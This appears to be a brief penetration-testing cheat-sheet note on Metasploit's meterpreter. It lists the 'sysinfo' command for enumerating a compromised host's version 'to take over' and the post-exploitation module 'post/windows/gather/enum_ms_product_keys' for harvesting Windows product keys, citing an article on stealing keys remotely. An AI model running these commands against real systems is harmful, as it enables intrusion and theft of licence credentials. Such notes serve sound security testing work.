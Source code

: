# Metasploit

Enumerating the system to see any kind of potential version we can take over.

```
meterpreter > sysinfo
```

Windows product key activation.

```
meterpreter > run post/windows/gather/enum_ms_product_keys
```

---
## References

- [YeahHub: Steal Windows Product Key Remotely with Metasploit Framework](https://www.yeahhub.com/steal-windows-product-key-remotely-metasploit-framework/)